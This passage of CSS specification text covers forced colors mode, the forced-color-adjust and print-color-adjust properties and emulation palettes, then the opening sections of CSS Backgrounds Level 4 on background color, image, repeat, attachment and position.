> **Note:** Aside from the small list of adjustments given above, user agents generally do not further adjust a page to match the user’s preferred color scheme, because the chance of accidentally ruining a page is too high. However, when particular color choices are required by the user (for accessibility reasons, for example), more invasive changes might be applied; see [§ 3 Forced Color Palettes](#css-color-adjust-1:forced).

#### 2.5. Overriding the Color Scheme {#css-color-adjust-1:color-scheme-override}

If the user has indicated an overriding preference for a particular color scheme that the author does not explicitly support, and the author has not disallowed this (by using the `only` keyword), the user agent must **override the color scheme**: in addition to the effects described in [§ 2.4 Effects of the Used Color Scheme](#css-color-adjust-1:color-scheme-effect), it must also auto-adjust *other* colors into this chosen color scheme, such as by inverting their brightness, while preserving any color contrast necessary for readability of the page. In this case, UA may also auto-adjust colors within replaced elements, background images, and other external resources as appropriate.

> **Note:** The specifics of such auto-adjustments are UA-defined, and can differ from UA to UA. But it is not intended to force all colors into a fixed palette, as forced colors mode does, only to force all colors on the page to conform to either a dark or light color scheme.

> **Example:** For example, a UA might have a “dark room” mode, which forces all pages into a dark color scheme.
>
> For pages that already support dark color schemes, and have indicated so using the `color-scheme` property or `color-scheme` `meta` name, this has no effect other than reporting a `dark` value for the `prefers-color-scheme` media query and selecting a dark used color scheme.
>
> But for pages that do not explicitly support a dark color scheme, and have not explicitly forbidden this auto-adjustment by specifying `color-scheme: only light`, this mode triggers auto-adjustment of the page’s colors to *force* the page to conform to the desired dark color scheme.

### 3. Forced Color Palettes {#css-color-adjust-1:forced}

**Forced colors mode** is an accessibility feature intended to increase the readability of text through color contrast. Individuals with limited vision often find it more comfortable to read content when there is a particular type of contrast between foreground and background colors.

Operating systems can provide built-in color themes, such as Windows’ high contrast black-on-white and high-contrast white-on-black themes. Users can also customize their own themes, for example to provide low contrast or hue contrast.

In forced colors mode, the user agent enforces the user’s preferred color palette on the page, overriding the author’s chosen colors for specific properties, see [§ 3.1 Properties Affected by Forced Colors Mode](#css-color-adjust-1:forced-colors-properties). It may also enforce a “backplate” underneath text (similar to the way backgrounds are painted on the `::selection` pseudo-element) to ensure adequate contrast for readability.

To enable pages to adapt to forced colors mode user agents will match the `forced-colors` media query and must provide the required color palette through the CSS system colors (see [CSS-COLOR-4]). Additionally, if the UA determines, based on Lab lightness, that the `Canvas` color is clearly either dark (L < 33%) or light (L > 67%), then it must match the appropriate value of the `prefers-color-scheme` media query and express a corresponding user preference for `color-scheme`. This will allow pages that support light/dark color schemes to automatically adjust to more closely match the forced color scheme. Behavior between the above dark vs. light thresholds is UA-defined, and may result in assuming either `light` or `dark` as the user’s preferred color scheme.

If get emulated forced colors theme data is not "`none`", the user agent should bypass the above operating system color themes, and instead act as if the user has enabled forced colors mode with the forced colors mode emulation color palette defined for the resulting value of emulated forced colors theme data.

#### 3.1. Properties Affected by Forced Colors Mode {#css-color-adjust-1:forced-colors-properties}

When forced colors mode is active and `forced-color-adjust` is `auto` (see below) on an element, the `<color>` components of all properties on the element are force-adjusted to the user’s preferred color palette.

> **Note:** Specifically, forced colors mode applies to the following color properties, along with their shorthands. This is the list of color properties existing at the time of writing, but it may not be an exhaustive list as more properties get added over time:
>
> - `accent-color`
> - `background-color`
> - `border-color`
> - `caret-color`
> - `color`
> - `flood-color`
> - `fill`
> - `lighting-color`
> - `outline-color`
> - `rule-color`
> - `scrollbar-color`
> - `stop-color`
> - `stroke`
> - `text-decoration-color`
> - `text-emphasis-color`
> - `-webkit-tap-highlight-color`

For each `<color>` component of a property, if its computed value is a color other than a system color, its used value is instead forced to a system color as follows:

- For `background-color` in particular, it is forced to the color opposite the `color` property’s system color value in the system color pairings, using `CanvasText` as the opposite of `Canvas`. However, its alpha channel is taken from the original `background-color` value so that transparent backgrounds remain transparent.
- In all other cases, the UA determines the appropriate forced system color—​which should match the color that would result from an empty author style sheet whenever all of the element’s affected properties are likewise UA-determined.

  > **Note:** UAs need to be careful about inheritance when forcing colors. For example, suppose the UA’s button `color` and `background-color` are the opposite of its canvas `color` and `background-color`. Given markup such as
  >
  > ```
  > <button>Push <em>this</em> button</button>
  > ```
  >
  > Normally, `em` will inherit from `button`, ensuring its readability. However in forced colors mode, the `color` of both `button` and `em` will need to be forced. It’s easy to see that `button`’s color should be forced to the button color, but `em` also needs to be forced to the button color; if it were forced to the canvas `color` like it is everywhere else in the document, its text will be unreadable.

Additionally:

- `box-shadow` and `text-shadow` compute to `none`
- `background-image` computes to `none` unless the original value contains a `url()` function
- `color-scheme` computes to `light dark`
- `scrollbar-color` computes to `auto`
- `accent-color` computes to `auto`
- If `font-variant-emoji` computes to `normal` or `unicode`, UAs should force any emoji on the page to its monochrome variant, if available, by forcing the computed value of `font-variant-emoji` to `text`.

UAs may further tweak these forced colors mode heuristics to provide better user experience.

> **Example:** Authors may still use features such as `color-mix()` in forced colors mode. In such cases, the computed value will behave as it would normally, but the used value will be overridden with an appropriate system color.
>
> ```
> .example {
>   color: color-mix(in srgb, CanvasText, Canvas);
> }
> ```
>
> The computed value for `color` will be a 50-50 blend of the `CanvasText` and `Canvas` system colors. That value will inherit to descendants and be observable via APIs such as `computedStyleMap()`.
>
> The used value for `color` will be a system color chosen by the UA, for example `CanvasText`.

#### 3.2. Opting Out of a Forced Color Palette: the `forced-color-adjust` property {#css-color-adjust-1:forced-color-adjust-prop}

| Field | Value |
| --- | --- |
| Name: | **forced-color-adjust** |
| [Value:](#css-values-4:value-defs) | auto \| none \| preserve-parent-color |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

The `forced-color-adjust` property allows authors to opt particular elements out of forced colors mode, restoring full control over the colors to CSS. Values have the following meanings:

****auto****

: The element’s colors are automatically adjusted by the UA in forced colors mode.

****none****

: The element’s colors are not automatically adjusted by the UA in forced colors mode.

  **Authors should only use this value when they are themselves adjusting the colors to support the user’s color and contrast needs and need to make changes to the UA’s default adjustments to provide a more appropriate user experience for those elements.**

****preserve-parent-color****

: In forced colors mode, if the `color` property inherits from its parent (i.e. there is no cascaded value or the cascaded value is `currentColor`, `inherit`, or another keyword that inherits from the parent), then it computes to the used color of its parent’s `color` value.

  In all other respects, behaves the same as `none`.

  > **Note:** This value is intended solely to get a reasonable behavior from embedded SVG elements that expect to receive the outer document’s text color (and stay consistent with adjustments from forced colors mode), while otherwise defaulting SVGs to preserving their exact colors, as forced colors mode can’t generally be usefully applied to illustrations.

In order to not break SVG content, UAs are expected to add the following rules to their UA style sheet:

```
@namespace "http://www.w3.org/2000/svg";
svg|svg { forced-color-adjust: preserve-parent-color; }
svg|foreignObject { forced-color-adjust: auto; }
```

UAs must propagate the `forced-color-adjust` value set on the root element to the document viewport (where it can affect e.g. the canvas background). Note that `forced-color-adjust` is *not* propagated from HTML `body`.

### 4. Performance-based Color Adjustments {#css-color-adjust-1:perf}

On most monitors, the color choices that authors make have no significant difference in terms of how the device performs; displaying a document with a white background or a black background is approximately equally easy.

However, some devices have limitations and other qualities that make this assumption untrue. For example, printers tend to print on white paper; a document with a white background thus has to spend no ink on drawing that background, while a document with a black background will have to expend a large amount of ink filling in the background color. This tends to look fairly bad, and sometimes has deleterious physical effects on the paper, not to mention the vastly increased printing cost from expending the extra ink. Even fairly small differences, such as coloring text black versus dark gray, can be quite different when printing, as it switches from using a single black ink to a mixture of cyan, magenta, and yellow ink, resulting in higher ink usage and lower resolution.

As a result, in some circumstances user agents will alter the styles an author specifies in some particular context, adjusting them to be more appropriate for the output device and to accommodate what they assume the user would prefer. However, in some cases the document may be using colors in important, well-thought-out ways that the user would appreciate, and so the document would like some way to hint to the user agent that it might want to respect the page’s color choices. This section defines properties for controlling these automatic adjustments.

#### 4.1. Ink Economy: the `print-color-adjust` property {#css-color-adjust-1:print-color-adjust}

| Field | Value |
| --- | --- |
| Name: | **print-color-adjust** |
| [Value:](#css-values-4:value-defs) | economy \| exact |
| [Initial:](#css-cascade-6:initial-values) | economy |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `print-color-adjust` property provides a hint to the user-agent about how it should treat color and style choices that might be expensive or generally unwise on a printer or similar device, such as using light text on a dark background. If user agents allow users to control this aspect of the document’s display, the user preference **must** be respected more strongly than the hint provided by `print-color-adjust`. It has the following values:

****economy****

: The user agent should make adjustments to the page’s styling as it deems necessary and prudent for the output device.

  For example, if the document is being printed, a user agent might ignore any backgrounds and adjust text color to be sufficiently dark, to minimize ink usage.

****exact****

: This value indicates that the page is using color and styling on the specified element in a way which is important and significant, and which should not be tweaked or changed except at the user’s request.

  For example, a mapping website offering printed directions might "zebra-stripe" the steps in the directions, alternating between white and light gray backgrounds. Losing this zebra-striping and having a pure-white background would make the directions harder to read with a quick glance when distracted in a car.

UAs must propagate the `print-color-adjust` value set on the root element to the document viewport (where it can affect e.g. the canvas background). Note that `print-color-adjust` is *not* propagated from HTML `body`.

#### 4.2. The `color-adjust` Shorthand {#css-color-adjust-1:color-adjust}

| Field | Value |
| --- | --- |
| Name: | **color-adjust** |
| [Value:](#css-values-4:value-defs) | `<'print-color-adjust'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `color-adjust` shorthand allows an author to set all of the performance-motivated color adjustment properties in one declaration. (Currently, there is only one such property—​`print-color-adjust`—​but more might be added in the future.)

**The `color-adjust` shorthand is currently *deprecated*. Authors should use the more specific `print-color-adjust` property, to avoid accidentally resetting performance-based color adjustments in other contexts than the one intended.**

### 5. Emulation {#css-color-adjust-1:color-adjust-emulation}

For the purposes of user agent automation and application testing, this document defines the below emulations.

#### 5.1. Emulate Forced Colors Mode {#css-color-adjust-1:emulate-forced-colors-mode}

Each top-level traversable has an associated **emulated forced colors theme data**, which is data representing `ForcedColorsModeAutomationTheme`, initially "`none`".

```webidl
enum ForcedColorsModeAutomationTheme {
  "none",
  "light",
  "dark"
};
```

To **set emulated forced colors theme data**, given navigable *navigable* and an *emulatedThemeData*:

1. Assert *emulatedThemeData* is `ForcedColorsModeAutomationTheme`.
2. Let *traversable* be *navigable*’s top-level traversable.
3. If *traversable* is not null:

  1. Set *traversable*’s associated emulated forced colors theme data to *emulatedThemeData*.
  2. UAs must consider this a change that requires style recalculation.

To **get emulated forced colors theme data**, given `ForcedColorsModeAutomationTheme` *theme*:

1. Let *navigable* be *theme*’s relevant global object’s associated Document’s node navigable.
2. If *navigable* is null, return null.
3. Let *traversable* be *navigable*’s top-level traversable.
4. If *traversable* is null, return null.
5. Return *traversable*’s associated emulated forced colors theme data.

#### 5.2. Forced Colors Mode Color Palettes {#css-color-adjust-1:forced-color-palettes}

For the purposes of user agent automation and application testing, this document defines the below **forced colors mode emulation color palettes**.

| `<system-color>` keyword | Value |
| --- | --- |
| `AccentColor` | #FFFFFF |
| `AccentColorText` | #000000 |
| `ActiveText` | #00009F |
| `ButtonBorder` | #000000 |
| `ButtonFace` | #FFFFFF |
| `ButtonText` | #000000 |
| `Canvas` | #FFFFFF |
| `CanvasText` | #000000 |
| `Field` | #FFFFFF |
| `FieldText` | #000000 |
| `GrayText` | #600000 |
| `Highlight` | #37006E |
| `HighlightText` | #FFFFFF |
| `LinkText` | #00009F |
| `Mark` | N/A - this system color keyword should not be adjusted. |
| `MarkText` | N/A - this system color keyword should not be adjusted. |
| `SelectedItem` | #37006E |
| `SelectedItemText` | #FFFFFF |
| `VisitedText` | #00009F |

| `<system-color>` keyword | Value |  |
| --- | --- | --- |
| `AccentColor` | #000000 |  |
| `AccentColorText` | #FFFFFF |  |
| `ActiveText` | #FFFF00 |  |
| `ButtonBorder` | #000000 |  |
| `ButtonFace` | #000000 |  |
| `ButtonText` | #FFFFFF |  |
| `Canvas` | #000000 |  |
| `CanvasText` | #FFFFFF |  |
| `Field` | #000000 |  |
| `FieldText` | #FFFFFF |  |
| `GrayText` | #3FF23F |  |
| `Highlight` | #1AEBFF |  |
| `HighlightText` | #000000 |  |
| `LinkText` | #FFFF00 |  |
| `Mark` | N/A - this system color keyword should not be adjusted. |  |
| `MarkText` | N/A - this system color keyword should not be adjusted. |  |
| `SelectedItem` | #1AEBFF |  |
| `SelectedItemText` | #000000 |  |
| `VisitedText` | #FFFF00 |  |

---

## CSS Backgrounds Module Level 4 {#css-backgrounds-4}

- **Shortname:** `css-backgrounds-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-backgrounds-4/](https://drafts.csswg.org/css-backgrounds-4/)
- **Published TR:** [https://www.w3.org/TR/css-backgrounds-4/](https://www.w3.org/TR/css-backgrounds-4/)
- **W3C Status:** FPWD (exploring)
- **Last Edited:** 2026-08-03

### 1.  Introduction {#css-backgrounds-4:intro}

When elements are rendered according to the [CSS box model](#css-box-4:box-model) [CSS-BOX-3], each element is either not displayed at all, or formatted as one or more rectangular boxes. Each box has a rectangular content area, a band of padding around the content, a border around the padding, and a margin outside the border. (The margin may actually be negative, but margins have no influence on the background and border.)


The various areas and edges of a typical box. (This diagram is explained in the CSS Box Model Module [CSS-BOX-3].)

The properties of this module deal with the background of the content, padding, and border areas.

If an element is broken into multiple box fragments, `box-decoration-break` defines how the borders and background are divided over the various fragments. (An element can result in more than one fragment if it is broken at the end of a line, at the end of a column or at the end of a page; and continued in the next line, column or page.)

The relative stacking order of backgrounds, borders, and shadows is given in this module. For how these layers interact with other rendered content, see Appendix E “Elaborate description of Stacking Contexts” in [CSS2].

#### 1.1.  Module Interactions {#css-backgrounds-4:placement}

This specification extends the parts related to backgrounds of CSS Backgrounds and Borders Module Level 3 [CSS3BG].

It provides specifications for the added `background-repeat-*` and `background-position-*' longhands, a new `background-tbd` property that allows to define the background layers excluding the color, and adds two new values to `background-clip`.

All properties in this module apply to the `::first-letter` and `::first-line` pseudo-elements.

#### 1.2.  Value Definitions {#css-backgrounds-4:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types. For example, combining with [CSS Images](#css-images-5) allows for using CSS gradients as `background-image` or `border-image` values. [CSS-IMAGES-3]

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Defining Backgrounds {#css-backgrounds-4:backgrounds}

Each box has a background layer that may be fully transparent (the default), or filled with a color and/or one or more images. The background properties specify what color (`background-color`) and images (`background-image`) to use, and how they are sized, positioned, tiled, etc.

The background properties are not inherited, but the parent box’s background will shine through by default because of the initial `transparent` value on `background-color`.

#### 2.1.  Base Color: the `background-color` property {#css-backgrounds-4:background-color}

| Field | Value |
| --- | --- |
| Name: | **background-color** |
| [Value:](#css-values-4:value-defs) | `<color>` |
| [Initial:](#css-cascade-6:initial-values) | transparent |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | computed color |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

This property sets the **background color** of a box. This color is drawn behind any background images.

> **Example:** ```
> h1 { background-color: #F00 } /* Sets background to red. */
> ```

The background color is clipped according to the `background-clip` value associated with the bottom-most background image layer.

#### 2.2.  Image Sources: the `background-image` property {#css-backgrounds-4:background-image}

| Field | Value |
| --- | --- |
| Name: | **background-image** |
| [Value:](#css-values-4:value-defs) | `<bg-image>`# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item either an `<image>` or the keyword `none` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies the **background image(s)** of an element. Images are drawn with the first specified one on top (closest to the user) and each subsequent image behind the previous one. The property’s value is given as a comma-separated list of `<bg-image>` values where

```css
<bg-image> = <image> | none
```

A value of **none** counts as a background image layer but draws nothing. An image that is empty (zero width or zero height), that fails to download, or that cannot be displayed (e.g., because it is not in a supported image format) likewise counts as a layer but draws nothing.

See [§ 3 Layering Multiple Background Images](#css-backgrounds-4:layering) for how `background-image` interacts with other comma-separated background properties to form each background image layer.

When setting a background image, authors should also specify a `background-color` that will preserve contrast with the text for when the image is unavailable.

For accessibility reasons, authors should not use background images as the sole method of conveying important information. See [Web Content Accessibility Guideline F3](https://www.w3.org/TR/2008/NOTE-WCAG20-TECHS-20081211/F3) [WCAG20]. Images are not accessible in non-graphical presentations, and background images specifically might be turned off in high-contrast display modes.

> **Note:** Stylistic foreground images can be provided in CSS with the `content` property. Semantically-important foreground images should be provided in the document markup, e.g. with the  tag in HTML.

> **Note:** [Media fragments](https://www.w3.org/TR/media-frags/#naming-space) can be used to display a portion of an image. The [CSS Images](#css-images-5) module will provide fallback syntax for image formats and include additional controls for image display.

> **Example:** Some examples specifying background images:
>
> ```
> html { background-image: url("marble.svg") }
> p { background-image: none }
> div { background-image: url(tl.png), url(tr.png) }
> main { background-image: radial-gradient(at bottom right, transparent, white); }
> ```

Implementations may optimize by not downloading and drawing images that are not visible (e.g., because they are behind other, fully opaque images).

#### 2.3.  Tiling Images: the `background-repeat-x`, `background-repeat-y`, `background-repeat-block`, and `background-repeat-inline` properties {#css-backgrounds-4:background-repeat-longhands}

| Field | Value |
| --- | --- |
| Name: | **background-repeat-x**, **background-repeat-y**, **background-repeat-block**, **background-repeat-inline** |
| [Value:](#css-values-4:value-defs) | `<repetition>`# |
| [Initial:](#css-cascade-6:initial-values) | repeat |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| [Logical property group:](#css-logical-1:logical-property-group) | `background-repeat` |

```css
<repetition> = repeat | space | round | no-repeat
```

These properties specify whether and how background images are tiled along one axis after they have been [sized](#css-backgrounds-4:the-background-size) and [positioned](#css-backgrounds-4:the-background-position).

****repeat****

: The image is repeated in the given direction as often as needed to cover the background painting area.

****space****

: The image is repeated in the given direction as often as will fit within the background positioning area without being clipped and then the repeated images are spaced out to fill the area. The first and last images touch the edges of the area. If the background painting area is larger than the background positioning area, then the pattern repeats to fill the background painting area. The value of `background-position` for this direction is ignored, unless there is not enough space for two copies of the image in this direction, in which case only one image is placed and `background-position` determines its position in this direction.

****round****

: The image is repeated in the given direction as often as will fit within the background positioning area. If it doesn’t fit a whole number of times, it is rescaled so that it does. See the formula under `background-size`. If the background painting area is larger than the background positioning area, then the pattern repeats to fill the background painting area.

****no-repeat****

: The image is placed once and not repeated in the given direction.

Unless one of the axes is set to `no-repeat`, the whole background painting area will be tiled, i.e., not just one vertical strip and one horizontal strip.

> **Example:** (s):
>
> ```
> body {
>   background: white url("pendant.png");
>   background-repeat-y: repeat;
>   background-position: center;
> }
> ```
>
> 
>
> The effect of `repeat-y`: One copy of the background image is centered, and other copies are put above and below it to make a vertical band behind the element.

See the section [§ 3 Layering Multiple Background Images](#css-backgrounds-4:layering) for how `background-repeat-x`, `background-repeat-y`, `background-repeat-block`, and `background-repeat-inline` interact with other comma-separated background properties to form each background image layer.

#### 2.4.  Tiling Images Shorthand: the `background-repeat` property {#css-backgrounds-4:background-repeat}

| Field | Value |
| --- | --- |
| Name: | **background-repeat** |
| [Value:](#css-values-4:value-defs) | `<repeat-style>`# |
| [Initial:](#css-cascade-6:initial-values) | repeat |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item a pair of keywords, one per dimension |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This shorthand sets the values for the `background-repeat-x` and `background-repeat-y` longhand properties.

```css
<repeat-style> = repeat-x | repeat-y | repeat-block | repeat-inline | <repetition>{1,2}
```

Single values for `<repeat-style>` have the following meanings:

****repeat-x****

: Computes to `repeat no-repeat`.

****repeat-y****

: Computes to `no-repeat repeat`.

****repeat-block****

: Computes to `repeat` in the block axis and `no-repeat` in the inline axis.

****repeat-inline****

: Computes to `repeat` in the inline axis and `no-repeat` in the block axis.

**`repeat`**

: Computes to `repeat repeat`.

**`space`**

: Computes to `space space`

**`round`**

: Computes to `round round`

**`no-repeat`**

: Computes to `no-repeat no-repeat`

If a `<repeat-style>` value has two keywords, the first one is for the horizontal direction, the second for the vertical one.

> **Example:** (s):
>
> ```
> body {
>   background-image: url(dot.png) white;
>   background-repeat: space;
> }
> ```
>
> 
>
> The effect of `space`: the image of a dot is tiled to cover the whole background and the images are equally spaced.

See the section [§ 3 Layering Multiple Background Images](#css-backgrounds-4:layering) for how `background-repeat` interacts with other comma-separated background properties to form each background image layer.

> **Issue:** Should a ['background-repeat: extend'](https://lists.w3.org/Archives/Public/www-style/2011Sep/0331.html) be added?

#### 2.5.  Affixing Images: the `background-attachment` property {#css-backgrounds-4:background-attachment}

| Field | Value |
| --- | --- |
| Name: | **background-attachment** |
| [Value:](#css-values-4:value-defs) | `<attachment>`# |
| [Initial:](#css-cascade-6:initial-values) | scroll |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item the keyword as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

If background images are specified, this property specifies whether they are fixed with regard to the viewport (`fixed`) or scroll along with the box (`scroll`) or its contents (`local`). The property’s value is given as a comma-separated list of `<attachment>` keywords where

```css
<attachment> = scroll | fixed | local
```

****fixed****

: The background is fixed with regard to the viewport. In paged media where there is no viewport, a `fixed` background is fixed with respect to the [page box](#css2:page-box) and therefore replicated on every page.

  > **Note:** There is only one viewport per view. Even if an box is a scroll container, a `fixed` background doesn’t move with the box.

****local****

: The background is fixed with regard to the box’s contents: if the box is a scroll container, the background scrolls with the box’s contents, and the background painting area and background positioning area are relative to the scrollable overflow area of the box rather than to the border framing them. Because the scrollable overflow area does not include the border area, for scroll containers the `border-box` value of `background-clip` may be treated the same as `padding-box`.

****scroll****

: The background is fixed with regard to the box itself and does not scroll with its contents. (It is effectively attached to the box’s border.)

Even if the image is fixed, it is still only visible when it is in the background painting area of the box or otherwise unclipped. (See [§ 4 Backgrounds of Special Elements](#css-backgrounds-4:special-backgrounds) for the cases when background images are not clipped.) Thus, unless the image is tiled, it may be invisible.

> **Example:** This example creates an infinite vertical band that remains “glued” to the viewport when the document is scrolled.
>
> ```
> body {
>   background: red url("pendant.gif");
>   background-repeat: repeat-y;
>   background-attachment: fixed;
> }
> ```

> **Note:** User agents that do not support `fixed` backgrounds (for example due to limitations of the hardware platform) [will ignore declarations](https://www.w3.org/TR/CSS/#partial) with the keyword `fixed`. For example:

```
body {
  /* For all UAs: */
  background: white url(paper.png) scroll;
  /* For UAs that do fixed backgrounds: */
  background: white url(ledger.png) fixed;
}
h1 {
  /* For all UAs: */
  background: silver;
  /* For UAs that do fixed backgrounds: */
  background: url(stripe.png) fixed, white url(ledger.png) fixed;
}
```

See [§ 3 Layering Multiple Background Images](#css-backgrounds-4:layering) for how `background-attachment` interacts with other comma-separated background properties to form each background image layer.

#### 2.6.  Background Positioning: the `background-position-x`, `background-position-y`, `background-position-inline`, and `background-position-block` properties {#css-backgrounds-4:background-position-longhands}

> **Issue:** This section is still being worked out. The tricky thing is making all the start/end keywords work sanely.

| Field | Value |
| --- | --- |
| Name: | **background-position-x** |
| [Value:](#css-values-4:value-defs) | [ center \| [ [ left \| right \| x-start \| x-end ]? `<length-percentage>`? ]! ]# |
| [Initial:](#css-cascade-6:initial-values) | 0% |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to width of background positioning area *minus* width of background image |
| [Computed value:](#css-cascade-6:computed) | A list, each item consisting of: an offset given as a computed `<length-percentage>` value, plus an origin keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |
| [Logical property group:](#css-logical-1:logical-property-group) | `background-position` |

This property specifies the background position’s horizontal component. An omitted origin keyword is assumed to be `left`.

| Field | Value |
| --- | --- |
| Name: | **background-position-y** |
| [Value:](#css-values-4:value-defs) | [ center \| [ [ top \| bottom \| y-start \| y-end ]? `<length-percentage>`? ]! ]# |
| [Initial:](#css-cascade-6:initial-values) | 0% |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to height of background positioning area *minus* height of background image |
| [Computed value:](#css-cascade-6:computed) | A list, each item consisting of: an offset given as a computed `<length-percentage>` value, plus an origin keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |
| [Logical property group:](#css-logical-1:logical-property-group) | `background-position` |

This property specifies the background position’s vertical component. An omitted origin keyword is assumed to be `top`.

| Field | Value |
| --- | --- |
| Name: | **background-position-inline** |
| [Value:](#css-values-4:value-defs) | [ center \| [ [ start \| end ]? `<length-percentage>`? ]! ]# |
| [Initial:](#css-cascade-6:initial-values) | 0% |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to inline-size of background positioning area *minus* inline-size of background image |
| [Computed value:](#css-cascade-6:computed) | A list, each item consisting of: an offset given as a computed `<length-percentage>` value, plus an origin keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |
| [Logical property group:](#css-logical-1:logical-property-group) | `background-position` |

This property specifies the background position’s inline-axis component. An omitted origin keyword is assumed to be `start`.

| Field | Value |
| --- | --- |
| Name: | **background-position-block** |
| [Value:](#css-values-4:value-defs) | [ center \| [ [ start \| end ]? `<length-percentage>`? ]! ]# |
| [Initial:](#css-cascade-6:initial-values) | 0% |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to size of background positioning area *minus* size of background image |
| [Computed value:](#css-cascade-6:computed) | A list, each item consisting of: an offset given as a computed `<length-percentage>` value, plus an origin keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |
| [Logical property group:](#css-logical-1:logical-property-group) | `background-position` |

This property specifies the background position’s block-axis component. An omitted origin keyword is assumed to be `start`.

****`<percentage>`****

: A percentage for the horizontal offset is relative to (*width of background positioning area* - *width of background image*). A percentage for the vertical offset is relative to (*height of background positioning area* - *height of background image*), where the size of the image is the size given by `background-size`.

  > **Example:** For example, with a value pair of `0% 0%`, the upper left corner of the image is aligned with the upper left corner of, usually, the box’s padding edge. A value pair of `100% 100%` places the lower right corner of the image in the lower right corner of the area. With a value pair of `75% 50%`, the point 75% across and 50% down the image is to be placed at the point 75% across and 50% down the area.
  >
  > 
  >
  > Diagram of the meaning of `background-position: 75% 50%`.

****`<length>`****

: A length value gives a fixed length as the offset. For example, with a value pair of `2cm 1cm`, the upper left corner of the image is placed 2cm to the right and 1cm below the upper left corner of the background positioning area.

****`top`****

: Computes to `0%` for the vertical position if one or two values are given, otherwise specifies the top edge as the origin for the next offset.

****`right`****

: Computes to `100%` for the horizontal position if one or two values are given, otherwise specifies the right edge as the origin for the next offset.

****`bottom`****

: Computes to `100%` for the vertical position if one or two values are given, otherwise specifies the bottom edge as the origin for the next offset.

****`left`****

: Computes to `0%` for the horizontal position if one or two values are given, otherwise specifies the left edge as the origin for the next offset.

****`center`****

: Computes to `50%` (`left 50%`) for the horizontal position if the horizontal position is not otherwise specified, or `50%` (`top 50%`) for the vertical position if it is.

> **Example:** The following `background` shorthand declarations use keywords to set `background-position` to the stated percentage values.
>
> ```
> body { background: url("banner.jpeg") right top }    /* 100%   0% */
> body { background: url("banner.jpeg") top center }   /*  50%   0% */
> body { background: url("banner.jpeg") center }       /*  50%  50% */
